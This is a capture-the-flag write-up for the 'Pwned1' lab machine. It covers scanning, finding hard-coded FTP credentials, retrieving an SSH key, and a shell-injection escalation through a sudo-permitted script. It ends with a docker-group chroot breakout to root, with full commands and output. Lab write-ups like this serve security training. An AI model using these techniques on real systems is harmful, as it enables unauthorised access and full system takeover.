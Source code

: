 ```yaml
---
layout: default
title: Pwned1
parent: Proving Grounds Play
nav_order: 23
---
```


# Scanning

---

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/pwned1]
└─$ sudo nmap -Pn -p- -sC -sV -T4 --open 192.168.213.95
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-13 17:59 EST
Nmap scan report for 192.168.213.95
Host is up (0.056s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 fe:cd:90:19:74:91:ae:f5:64:a8:a5:e8:6f:6e:ef:7e (RSA)
|   256 81:32:93:bd:ed:9b:e7:98:af:25:06:79:5f:de:91:5d (ECDSA)
|_  256 dd:72:74:5d:4d:2d:a3:62:3e:81:af:09:51:e0:14:4a (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Pwned....!!
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.61 seconds

```

# Enumeration

---

## 80 | HTTP

![index](../../../assets/images/ctfs/proving_grounds/pwned1/index.png)

![sings](../../../assets/images/ctfs/proving_grounds/pwned1/sings.png)

### WFUZZ/Gobuster

![robots](../../../assets/images/ctfs/proving_grounds/pwned1/robots.png)

_/nothing_

_/hidden_text_

![dict](../../../assets/images/ctfs/proving_grounds/pwned1/dict.png)

_/hacked_

![login](../../../assets/images/ctfs/proving_grounds/pwned1/login.png)

![creds](../../../assets/images/ctfs/proving_grounds/pwned1/creds.png)

```bash
//	if ($un=='ftpuser' && $pw=='B0ss_Pr!ncesS') {
```

# Exploitation

---

## Logon to FTP with Found Creds

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/pwned1]
└─$ ftp 192.168.213.95
Connected to 192.168.213.95.
220 (vsFTPd 3.0.3)
Name (192.168.213.95:vagrant): ftpuser
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
229 Entering Extended Passive Mode (|||12595|)
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Jul 10  2020 share
226 Directory send OK.
ftp> cd share
250 Directory successfully changed.
ftp> dir
229 Entering Extended Passive Mode (|||5179|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0            2602 Jul 09  2020 id_rsa
-rw-r--r--    1 0        0              75 Jul 09  2020 note.txt
226 Directory send OK.
ftp> get note.txt
local: note.txt remote: note.txt
229 Entering Extended Passive Mode (|||37941|)
150 Opening BINARY mode data connection for note.txt (75 bytes).
100% |***********************************************************|    75        1.58 MiB/s    00:00 ETA
226 Transfer complete.
75 bytes received in 00:00 (1.40 KiB/s)
ftp> get id_rsa
local: id_rsa remote: id_rsa
229 Entering Extended Passive Mode (|||15413|)
150 Opening BINARY mode data connection for id_rsa (2602 bytes).
100% |***********************************************************|  2602       26.12 MiB/s    00:00 ETA
226 Transfer complete.
2602 bytes received in 00:00 (46.59 KiB/s)

```

Discover username _ariana_ in _note.txt_

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/pwned1]
└─$ cat note.txt

Wow you are here

ariana won't happy about this note

sorry ariana :(

```

Authenticate to SSH service on target as _ariana_ with _id_rsa_

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/pwned1]
└─$ ssh -i id_rsa ariana@192.168.213.95
The authenticity of host '192.168.213.95 (192.168.213.95)' can't be established.
ED25519 key fingerprint is SHA256:Eu7UdscPxuaxyzophLkeILniUaKCge0R96HjWhAmpyk.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.213.95' (ED25519) to the list of known hosts.
Linux pwned 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
ariana@pwned:~$ id
uid=1000(ariana) gid=1000(ariana) groups=1000(ariana),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth)

```

# Post-Exploitation

---

## Check Sudo Permissions

We have the ability to run _/home/messenger_ as \*selena

```bash
ariana@pwned:/home$ sudo -l
Matching Defaults entries for ariana on pwned:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User ariana may run the following commands on pwned:
    (selena) NOPASSWD: /home/messenger.sh

```

There is a _messenger.sh_ script in the _/home_ directory.

```bash
ariana@pwned:/home$ cat messenger.sh
#!/bin/bash

clear
echo "Welcome to linux.messenger "
                echo ""
users=$(cat /etc/passwd | grep home |  cut -d/ -f 3)
                echo ""
echo "$users"
                echo ""
read -p "Enter username to send message : " name
                echo ""
read -p "Enter message for $name :" msg
                echo ""
echo "Sending message to $name "

$msg 2> /dev/null

                echo ""
echo "Message sent to $name :) "
                echo ""

```

If we execute the script we should be able to exploit the _$msg 2> /dev/null_ to get a _bash_ shell as _Selena_ since is the user we are running the script as.

```bash
ariana@pwned:/home$ sudo -u selena /home/messenger.sh


Welcome to linux.messenger


ariana:
selena:
ftpuser:

Enter username to send message : selena

Enter message for selena :/bin/bash

Sending message to selena
id
uid=1001(selena) gid=1001(selena) groups=1001(selena),115(docker)


```

## Exploit Docker Permissions

As we can see above, Selena is in the _docker_ group.

We can see which Docker images are on this machine

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
selena@pwned:/home$ docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
privesc             latest              09ae39f0f8fc        3 years ago         88.3MB
<none>              <none>              e13ad046d435        3 years ago         88.3MB
alpine              latest              a24bb4013296        3 years ago         5.57MB
debian              wheezy              10fcec6d95c4        4 years ago         88.3MB

```

According to GTFOBins we can exploit _docker_ to get a root shell

![gtfobins](../../../assets/images/ctfs/proving_grounds/pwned1/gtfobins.png)

```bash
selena@pwned:/home$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# id
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
# whoami
root

```
